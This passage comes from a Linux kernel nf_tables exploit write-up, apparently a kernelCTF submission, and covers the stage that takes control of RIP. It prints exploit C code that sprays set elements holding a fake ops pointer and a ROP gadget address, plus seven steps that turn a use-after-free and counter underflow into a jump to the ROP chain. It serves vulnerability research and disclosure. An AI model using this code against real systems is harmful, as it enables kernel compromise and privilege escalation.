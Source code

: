  ```c
  static int nf_tables_fill_setelem(struct sk_buff *skb,
				  const struct nft_set *set,
				  const struct nft_set_elem *elem)
  ...
  if (nft_set_ext_exists(ext, NFT_SET_EXT_OBJREF) &&
	    nla_put_string(skb, NFTA_SET_ELEM_OBJREF,
			   (*nft_set_ext_obj(ext))->key.name) < 0)
		goto nla_put_failure;
  ...
  ```


### Control RIP
This part of the exploit is basically the same as CVE-2023-4569. If you want to understand more details, read this [article](https://github.com/google/security-research/tree/master/pocs/linux/kernelctf/CVE-2023-4569_lts/docs/exploit.md).

The only difference is that when exploiting CVE-2023-4569, we put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x30, while in this exploit, we need to put it at offset 0x50 (because we used primitive_1 in Primitive, nft_chain->use offset is 0x50). Similar to the Leak info, I chose to put the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` at offset 0x50 by increasing `NFTA_SET_ELEM_DATA`:
```c
//step 4 create normal set elem with expr, make offsetof(chain->use) == offsetof(expr->size)
    *(uint64_t *)&pad[0] = target_heap;//expr->ops
    *(uint64_t *)&pad[8] = kernel_off + 0xFFFFFFFF8165A0A3;//leave ; ret
    for(i=0;i<0x1000;i++){
    	*(uint64_t *)hash_key_48 = i;
	new_setelem_with_expr_and_elemdata(socket, table, hash_set_for_expr, pad, 0x10, NULL, hash_key_48, 48, NULL, 0);
    }
```
```c
void new_setelem_with_expr_and_elemdata(struct nl_sock * socket,char *table_name, char *set_name, void *elemdata, uint32_t elemdata_len, char *obj_ref, char * input_key, int key_len, char *key_end, int key_end_len){
	...
	if(elemdata > 0){
        nla_put(elem_data, NFTA_DATA_VALUE, elemdata_len, elemdata);
		nla_put_nested(elem_nest, NFTA_SET_ELEM_DATA, elem_data);
    }
	...
```

I control the RIP by the following steps:
- 1. Create a chain for ROP(`chain X`). The size is 0x78 and it uses kmalloc-128.
- 2. Create 0x20 set elements wihch use `chain X` created in step 1. After step2, we will set `chain X->use = 0x20`
- 3. Call `primitive_1` 0x20 times, finally making `chain X->use = 0`
- 4. Delete `chain X`
- 5. Create 0x1000 new set elements. These new elements are carefully constructed so that the `size` field representing the length of `NFT_SET_EXT_EXPRESSIONS` is exactly at the position of `chain X->use`.
- 6. Delete all the set elements we created in step 2. The `chain->use` will be set to `0xfffffff0` from `0x10`, which means we change the `size` of `NFT_SET_EXT_EXPRESSIONS` of a set element which we created in step 5. We will change the `size` from `0x10` to `0xfffffff0`. Now we get a fake `nft_expr` expr[1]. We can fill the `ops` and the `data` of the fake expr in `NFTA_SET_ELEM_DATA`. 
- 7. Dump all the set elements we create in step 5. Finally we will jmp to our ROP gadget.
  ```c
	static int nf_tables_fill_expr_info(struct sk_buff *skb,
						const struct nft_expr *expr)
	{
		if (nla_put_string(skb, NFTA_EXPR_NAME, expr->ops->type->name))
			goto nla_put_failure;
  
  ```